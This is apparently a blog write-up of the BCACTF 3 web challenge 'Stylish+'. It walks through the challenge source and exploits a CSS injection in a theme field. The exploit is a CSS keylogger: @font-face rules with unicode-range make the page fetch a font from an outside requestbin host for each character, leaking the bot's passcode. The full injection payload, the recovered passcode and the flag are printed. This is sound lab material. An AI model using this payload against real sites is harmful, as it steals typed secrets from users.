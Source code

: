```yaml
---
title: Stylish+
date: 2022-06-06 10:00:00 +0200
categories: [web]
tags: [bcactf3]
toc: false
---
```


## Overview
Stylish+ is a **Fastify** web application that allows you to create CSS themes and present them to a bot. You also get the source code of the application to review it and identify any security vulnerabilities.

![](/assets/img/stylish_landing_page.png#center)
## Vulnerability
Looking at `package.json` file for deprecated libraries with known security vulnerabilities and also other config files for misconfigurations - has led to nothing.

After toying with the website and clicking every button - a POST request with the following payload is sent:
``` json
{
	"bodyBG":"white",
	"bodyFG":"black",
	"accentBG":"black",
	"accentFG":"white"
}
```
Let's see how the data is processed in `server/src/index.ts`.
``` javascript

app.post<{ Body: Static<typeof Theme> }>("/api/report", async (request, reply) => {
    // Generate an ID
    const id = cuid();

    // Store the theme
    themes.set(id, request.body);

    let context: BrowserContext | undefined;
    let page: Page | undefined;

    try {
        context = await (await browser).createIncognitoBrowserContext();
        page = await context.newPage();
        await page.setCacheEnabled(false);
        await page.goto(`http://localhost:3000/?theme=${id}`, { waitUntil: "load", timeout: 3000 });
        await page.click("#open-admin-panel");

        // Wait a bit to give everything some time to load
        await new Promise(resolve => setTimeout(resolve, 1000));

        const passcode = thePasscode;
        for (let i = 0; i < passcode.length; i++) {
            const char = passcode.charAt(i);
            const id = cuid();
            await page.evaluate(`
            document.querySelectorAll("#keypad > button").forEach(button => {
                if (button.innerText === "${char}") {
                    button.id = "${id}";
                }
            })
            `);
            await page.click(`#${id}`);
            await new Promise(resolve => setTimeout(resolve, 300));
        }

        const submitID = cuid();
        await page.evaluate(`
        document.querySelectorAll("#keypad > button").forEach(button => {
            if (button.innerText === "Submit") {
                button.id = "${submitID}";
            }
        })
        `);
        await page.click(`#${submitID}`);
        await new Promise(resolve => setTimeout(resolve, 3000));

        reply.send("sure");
    } catch (e) {
        console.error(e);
        throw e;
    } finally {
        // Clean up
        themes.delete(id);
        await page?.close();
        await context?.close();
    }
});
```
The body is saved inside a themes map for a quick visit from the bot and then deleted. However, the bot not only visits the page, but also enters its secret passcode - we should remember that.
In `public/src/main.ts` we can see that the theme is written inside a style tag.
``` javascript
function setTheme({bodyBG, bodyFG, accentBG, accentFG}: Theme) {
    theme = {bodyBG, bodyFG, accentBG, accentFG};
    document.getElementById("style")!.innerText = `
        :root {
            --body-bg: ${bodyBG};
            --body-fg: ${bodyFG};
            --accent-bg: ${accentBG};
            --accent-fg: ${accentFG};
        }
    `;
}
```
So we have controll over the html `<style>` tag - great, but how do we abuse that? Since this is a CTF challenge we have to see where the flag is hidden in the first place.
In `server/src/index.ts` there is another endpoint which looks as follows:
``` javascript
app.post<{ Body: Static<typeof FlagRequest> }>("/api/flag", {
    schema: {
        body: FlagRequest,
    },
}, (request, reply) => {
    const { passcode } = request.body;
    if (passcode === (thePasscode ?? "")) {
        console.log("Flag get!");
        reply.send(flag ?? "yell at the problem author to fix this");
    } else {
        reply.status(403).send("no");
    }
});
```
OK, so we have to figure out how to get our hands on the passcode - as we have already seen the bot that visits our theme enters the passcode. So how do we steal it?
It is pretty simple - with the `:focused` selector we can load an image from our server and we should be good to go, right?
This would be far too easy - so the author of the challenge gave us a pretty big obstacle - the the order of the buttons is randomized on every visit.
``` javascript
const buttons = [
	"D", "E", "F",
	"A", "B", "C",
	"7", "8", "9",
	"4", "5", "6",
	"1", "2", "3",
	"Reset", "0", "Submit",
];
const indices = [...Array(buttons.length).keys()];

for (let i = 0; i < indices.length; i++) {
	const j = Math.floor(Math.random() * indices.length);
	const temp = indices[i];
	indices[i] = indices[j];
	indices[j] = temp;
}
--- snipped ---
css += `
	#keypad button:nth-child(${i + 1}) {
		order: ${indices[i]};
	}
`;
--- snipped ---
```
## Exploitation
After researching the topic and readig through [tons of drafts](https://drafts.csswg.org/selectors/). I thought I would have to give up because it didn't seem to be possible to create a selector for a button with a specific letter or number.
But wait - why reinvent the wheel when it already exists - the idea of a CSS keylogger is not new and has been around for over 10 years! So I changed my research on this topic and found tons of new input to try out - for example the [@font-face rule](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face).
This rule set has a unique property called `unicode-range` which allows us to load a remote font and use only a range of chracters from it - this means that if we create this rule set for each letter and number of the passcode, we can build our keylogger - how exciting ^^
``` css
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; } // A
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; } // B
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; } // C
...
#keypad button:focus { font-family: x, 'Comic sans ms'; }
```
Our payload now looks like this:
``` json
{
    "bodyBG":"white",
    "bodyFG":"orange",
    "accentBG":"green",
    "accentFG":"blue;}@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=D), local(Impact); unicode-range: U+44; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=E), local(Impact); unicode-range: U+45; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=F), local(Impact); unicode-range: U+46; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=0), local(Impact); unicode-range: U+30; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=1), local(Impact); unicode-range: U+31; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=2), local(Impact); unicode-range: U+32; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=3), local(Impact); unicode-range: U+33; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=4), local(Impact); unicode-range: U+34; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=5), local(Impact); unicode-range: U+35; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=6), local(Impact); unicode-range: U+36; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=7), local(Impact); unicode-range: U+37; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=8), local(Impact); unicode-range: U+38; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=9), local(Impact); unicode-range: U+39; }#keypad button:focused { font-family: x, 'Comic sans ms';"
}
```
So let's just send it and find out if it works.
![](/assets/img/stylish_requestbin.png#center)

I had to repeat this process for a few times until I had the working passcode because the bot clicks on a button ever 300ms the resources took sometimes longer and fucked the order but in the end I had the working passcode: 4D7EA2950FC8B613

Sending it to the flag endpoint reveals the flag.
> bcactf{insert_absolutely_bad_css_pun_here_1fAZUo7ZgiCqiQkBkwPW0A}

٩(◕‿◕｡)۶
